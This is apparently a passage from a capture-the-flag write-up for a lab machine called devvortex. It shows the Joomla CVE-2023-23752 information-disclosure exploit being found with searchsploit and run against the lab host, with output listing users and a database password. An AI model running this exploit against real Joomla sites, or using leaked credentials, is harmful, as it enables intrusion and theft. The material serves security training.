 **Results:**

- Joomla version: 4.2.6

This version is vulnerable to CVE-2023-23752, an unauthenticated improper access control flaw allowing information disclosure via API endpoints.

### Vulnerability Research

Using Searchsploit:

```bash
searchsploit joomla 4.2
```

**Results:**

- `php/webapps/51334.py`: Joomla 4.2.0-4.2.7 - Unauthenticated Information Disclosure

This Python script exploits CVE-2023-23752 by accessing public API endpoints to leak sensitive data like database credentials and user lists.

---

## Initial Access (Web Exploitation)

### Information Disclosure Exploit

The exploit script (51334.py) was run after installing required Ruby gems (if missing):

```bash
ruby 51334.py http://dev.devvortex.htb
```

**Results:**

```
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
